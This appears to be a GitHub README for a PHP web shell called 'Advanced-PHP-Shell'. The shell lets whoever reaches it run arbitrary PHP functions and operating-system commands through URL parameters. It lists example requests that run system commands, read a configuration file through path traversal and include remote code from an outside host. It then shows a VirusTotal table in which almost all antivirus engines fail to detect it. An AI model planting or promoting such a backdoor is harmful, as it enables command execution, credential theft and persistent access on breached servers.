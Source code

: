 # Advanced-PHP-Shell
Allow to use native PHP functions and OS commands.


# Usage:

* f=  PHP function.
* p1= First parameter.
* p2= Second parameter.

# Example:
* advsh.php?f=getcwd
* advsh.php?f=scandir&p1=..
* advsh.php?f=system&p1=whoami
* advsh.php?f=system&p1=id
* advsh.php?f=system&p1=ipconfig
* advsh.php?f=hash&y=teste&p1=sha256
* advsh.php?f=copy&p1=teste.php&p2=teste.bkp
* advsh.php?f=readfile&p1=../../../config.php
* advsh.php?f=include&p1=https//www.brztec.com/file.php
* and much more...


# Virus Total Detection
https://www.virustotal.com/gui/file/74a4fb042e5802e1621f27641c497a29f68fcf32f4e37cfaef08190d67246daf/detection

Obs.: this is only for reference check the above link for updates.

* **Tencent:** *BK.YDWebShell.PHP.Smalleval.ek*
* **Acronis (Static ML):** *Undetected*
* **AhnLab-V3:** *Undetected*
* **ALYac:** *Undetected*
* **Antiy-AVL:** *Undetected*
* **Arcabit:** *Undetected*
* **Avast:** *Undetected*
* **AVG:** *Undetected*
* **Avira (no cloud):** *Undetected*
* **Baidu:** *Undetected*
* **BitDefender:** *Undetected*
* **BitDefenderTheta:** *Undetected*
* **Bkav Pro:** *Undetected*
* **ClamAV:** *Undetected*
* **CMC:** *Undetected*
* **Cynet:** *Undetected*
* **Cyren:** *Undetected*
* **DrWeb:** *Undetected*
* **Emsisoft:** *Undetected*
* **eScan:** *Undetected*
* **ESET-NOD32:** *Undetected*
* **F-Secure:** *Undetected*
* **Fortinet:** *Undetected*
* **GData:** *Undetected*
* **Google:** *Undetected*
* **Gridinsoft (no cloud):** *Undetected*
* **Ikarus:** *Undetected*
* **Jiangmin:** *Undetected*
* **K7AntiVirus:** *Undetected*
* **K7GW:** *Undetected*
* **Kaspersky:** *Undetected*
* **Kingsoft:** *Undetected*
* **Lionic:** *Undetected*
* **Malwarebytes:** *Undetected*
* **MAX:** *Undetected*
* **MaxSecure:** *Undetected*
* **McAfee:** *Undetected*
* **McAfee-GW-Edition:** *Undetected*
* **Microsoft:** *Undetected*
* **NANO-Antivirus:** *Undetected*
* **Panda:** *Undetected*
* **QuickHeal:** *Undetected*
* **Rising:** *Undetected*
* **Sangfor Engine Zero:** *Undetected*
* **Sophos:** *Undetected*
* **SUPERAntiSpyware:** *Undetected*
* **Symantec:** *Undetected*
* **TACHYON:** *Undetected*
* **Trellix (FireEye):** *Undetected*
* **TrendMicro:** *Undetected*
* **TrendMicro-HouseCall:** *Undetected*
* **VBA32:** *Undetected*
* **VIPRE:** *Undetected*
* **VirIT:** *Undetected*
* **ViRobot:** *Undetected*
* **Xcitium:** *Undetected*
* **Yandex:** *Undetected*
* **Zillya:** *Undetected*
* **ZoneAlarm by Check Point:** *Undetected*
* **Zoner:** *Undetected*
